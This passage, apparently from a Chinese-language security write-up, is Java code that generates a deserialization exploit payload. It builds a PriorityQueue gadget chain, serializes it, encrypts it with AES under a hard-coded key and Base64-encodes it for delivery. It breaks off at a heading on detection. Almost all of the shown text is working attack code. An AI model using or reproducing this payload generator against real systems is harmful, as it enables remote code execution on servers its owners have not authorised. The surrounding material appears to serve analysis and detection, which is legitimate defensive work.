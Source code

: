 ```java
        setField("size",priorityQueue,2);
        setField("queue",priorityQueue,new Object[]{template,template});
        ByteArrayOutputStream bos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(bos);
        oos.writeObject(priorityQueue);
        oos.flush();
        return bos.toByteArray();
    }

    private static String tob64(byte[] scode) throws NoSuchPaddingException, NoSuchAlgorithmException, InvalidAlgorithmParameterException, InvalidKeyException, IllegalBlockSizeException, BadPaddingException {
        byte[] keyBytes = Base64.getDecoder().decode("kPH+bIxk5D2deZiIxcaaaA==");
        SecretKeySpec keySpec = new SecretKeySpec(keyBytes, "AES");
        byte[] iv = new byte[16];
        new SecureRandom().nextBytes(iv);
        IvParameterSpec ivSpec = new IvParameterSpec(iv);
        Cipher cipher = Cipher.getInstance("AES/CBC/PKCS5Padding");
        cipher.init(Cipher.ENCRYPT_MODE, keySpec, ivSpec);
        byte[] encryptedData = cipher.doFinal(scode);
        byte[] concatenatedArray = new byte[iv.length + encryptedData.length];
        System.arraycopy(iv, 0, concatenatedArray, 0, iv.length);
        System.arraycopy(encryptedData, 0, concatenatedArray, iv.length, encryptedData.length);
        return Base64.getEncoder().encodeToString(concatenatedArray);
    }

    public static void setField(String fieldname,Object obj,Object value) throws NoSuchFieldException, IllegalAccessException {
        Class targetclass = obj.getClass();
        Field declaredField = targetclass.getDeclaredField(fieldname);
        declaredField.setAccessible(true);
        declaredField.set(obj,value);
    }

    public static void serialize(Object obj) throws IOException, IOException {
        ObjectOutputStream oos = new ObjectOutputStream(Files.newOutputStream(Paths.get("ser.bin")));
        oos.writeObject(obj);
    }

    public static Object unserialize() throws IOException, ClassNotFoundException {
        ObjectInputStream ois = new ObjectInputStream(Files.newInputStream(Paths.get("ser.bin")));
        Object obj = ois.readObject();
        return obj;
    }
}
```

## 特征检测
